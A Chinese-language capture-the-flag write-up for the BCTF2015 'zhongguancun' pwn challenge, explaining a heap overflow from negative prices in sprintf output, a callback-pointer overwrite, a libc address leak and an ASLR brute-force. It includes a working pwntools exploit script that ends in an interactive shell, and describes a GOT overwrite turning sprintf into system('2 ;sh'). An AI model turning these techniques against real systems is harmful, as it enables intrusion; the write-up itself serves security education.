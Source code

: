 ```yaml
---
layout: post
title: BCTF2015 zhongguancun writeup
catagories: [ctf]
tags: [ctf, writeup, BCTF2015, pwn, exploit]
---
```


> 堆溢出, 弱菜解题小记

```
*********************************
*** Welcome to Zhong Guan Cun ***
*********************************
Are you dreaming of becoming a Milli$_$naire?
Come to sell some electronics!

a) Register my store
b) Try my store
c) Exit
Your choice? 
```

经分析，这个题目是说一个中关村买卖电子产品的服务。在买前之前，需要先在商店里，填好商品条目。一共有两大类，手机和手表，每个条目的数据结构如下：

```
+0x0
callback function, 在增加条目时，被指向一个用来计算批发价的函数。
+0x4
手机或手表名称，由用户自己输入， 长度0x20
+0x24
相关描述，长度0x50
+0x74
价格，长度16
+0x78
操作系统对应选项，其中手机有5个，手表有4个。
```

每个条目的0x7c大小的数据结构，均在堆上申请分配

`0x08049036`处的这个函数，可以打印出目前商店中的商品。它在堆上申请了一个2840大小的空间，然后使用一个函数将其格式化打印到一个指定的buffer里。

```c
int __cdecl sub_804932E(item *a1, char *buffer)
{
    return sprintf(
               buffer,
               "%s %s price: %d CNY description: %s",
               20 * a1->type + 0x804B140,
               a1->name,
               a1->price,
               a1->description);
}
```

那么，到目前为止，可能的漏洞在哪里呢，我们对堆上分配的内存比较敏感，先看看2840大小的空间够不够存放最多16个条目的。
我们把所有的条目都定位到最长，操作系统类型，选择手机里的`Blackberry OS`，即类型为4。其名称输入最长的`31`个字符，描述输入`79`个字符。价格在内存中使用32位整型保存，最大应该是`2147483647`，`%d`打印出来，是10个字符长。

所有的这些加起来，输满16个，好像才2837个字符，没有溢出的样子。

真的是这样吗？价格由atoi()函数转换而成，好像没有做强制类型转换，也就是说可以是负数，如果是负数，像这样`-1000000000`岂不是11个字符，`2837+16>2840`，这样就可以溢出了。

这个溢出，我们如何来利用呢？首先想到的是每个商品也是在堆上分配的（0x7c大小），而每个商品的最开始的地方，是相应的函数指针，能不能把这个函数指针改掉？当然可以，那么改成什么呢？试遍所有，在调函数之前有个判断，从`/dev/zero`里读0, 填充到当前指向的值最末位，即如果是0xaabbccdd，会改成0xaabbcc00，当然，如果这个数据是只读的，就没法改动。那么这个地方的函数指针也只能改成rodata这种只读权限的段的内容了。又因为它是函数指针，我们接下来，也要利用这个函数指针，所以我的方法是改成`008049B64x`，利用其`sub_804932E`函数来向指定内存中打印字符串，这样来达到任意地址写的目的。

如此，在执行到以下代码时，就能执行我们改成的`sub_804932e`处的函数，而第二参数，本来是指购买数量，换成这个函数变成了指定的buffer的值了。也是我们可以控制的。

```c
    read_zero(v4, (void **)&a1->callback);
    v6 = (*(int (__cdecl **)(item *, int))a1->callback)(a1, numberofBuy);
    sprintf(nptr, "The lowest price we can offer is %d CNY.\n", v6);
```

到这里，问题来了，我们能任意地址写了，虽然是一写一大块。我们如何泄露某个libc函数地址，来计算libc基址，并且把计算好的system()函数的地址再写回远端呢？好像比较困难，我们可以使用2840大小的堆地址，将其写成某个libc函数的got表地址，然后很多地方调用了它，可以将它的值打印出来，即应got表的值可以打印出来，但好像一直没找到办法把计算好的system()函数的地址写回去。

我这里的利用不太好，最终还是使用的暴力的思路，泄露出system()地址后，因为它们是页对齐的，即对方alsr无论地址如何变，最后12位是不会变的。并且前面的8位也不会变，变的只是中间那几位，这样变化空间就比较小，可以将一个对的system()函数的地址放上去，然后`while True:`的来调利用脚本，一旦利用成功，因为开了交互式`io.interactive()`,脚本就会停下来，拿到shell。

泄露libc地址的脚本

```python
#!/usr/bin/env python2
from pwn import *

io = process("./zhongguancun-47a25f85cc5221071886cc129046e6e4_noped")
#io = remote("146.148.60.107", 6666)
#bin = ELF("./zhongguancun-47a25f85cc5221071886cc129046e6e4")
#libc = ELF("libc.so.6")
libc = ELF("libc.so.6.local")


buffer = "a"*15 + "\n" + "A"*63 + "\n" 
buffer += ("a"*15 + "\n" + "P"*31 + "\n" + "4" + "\n" + "-1000000000\n" + "D"*79 + "\n") * 15
io.send(buffer)
#raw_input()
buffer = "c" + "\n"
buffer += "a"*15 + "\n" + "P"*31 + "\n" + "4" + "\n" + "-1000000000\n" 
buffer += p32(0x080489C3) + "D"*2 + p32(0x0804B024)*10 + p32(0xf7470da0) + p32(0x080489C3)*4 + p32(0x804b140) + p32(0x0804B030)  + p32(0x08049B64) + "\n"

buffer += "c" + "\n" + "d" + "\n" +"b" +"\n" + "16" +"\n"
buffer += "b" + "\n" + "134525187" + "\n" # offset read, global_s
buffer += "b" + "\n" + "134525696" + "\n"
buffer += "c" + "\n" 
io.send(buffer)


buffer = "b" + "\n"
io.send(buffer)
all = io.recvrepeat(timeout=1)
readaddr = all[-68:-64]
alarmaddr = all[-64:-60]
print libc.symbols["read"]
print libc.symbols["system"]
libcbase = u32(readaddr) - libc.symbols["read"]
systemaddr = libcbase + libc.symbols["system"]
print "[+] leak read() address: ", hex(u32(readaddr))
print "[+] leak libc base address: ", hex(libcbase)
print "[+] leak system() address: ", hex(systemaddr)

io.interactive()
```

然后，再利用上面脚本，稍做修改，将泄露出来的地址硬写进去，改一下来触发来`system("sh")`(我改的是atoi()函数，并给传进去的参数是"sh"， 利用脚本就不贴了，跟上面大同小异), 加个while的循环，暴力的等shell吧。还好是32位的二进制程序，如果是64位的，这个方法是行不通的。所以不推荐我这里使用的暴力的方法。

下面我们来看看别的队伍的比较完美的利用吧。

* <https://gist.github.com/Idolf/99ffa3c5f76165f77b19>

他利用了当前拥有的钱数，将其指向的地址改成`sprintf`的got表的地址，然后在下面这地方，有对钱数进行了改动。

```c
get_input(nptr, 15, '\n');
v1 = atoi(nptr);
if ( v1 <= 0 )
    goto LABEL_6;
v2 = *(_DWORD *)mymoney - a1->price * v1;
if ( v2 >= 0 )
{
    *(_DWORD *)mymoney = v2;
    put_char((int *)"Thanks for buying.\n");
    sprintf(nptr, "Total money left: %d CNY.\n", *(_DWORD *)mymoney);
```

利用钱数改动的操作，将`sprintf`到`system()`的偏移计算好，直接利用`momey - a1->price*v1`的操作将`sprintf`的`got`表的值改成真实的`system`函数地址值，接下来，执行到`sprintf()`就相当于执行`system("2 ;sh")`了，`nptr="2 ;sh"`
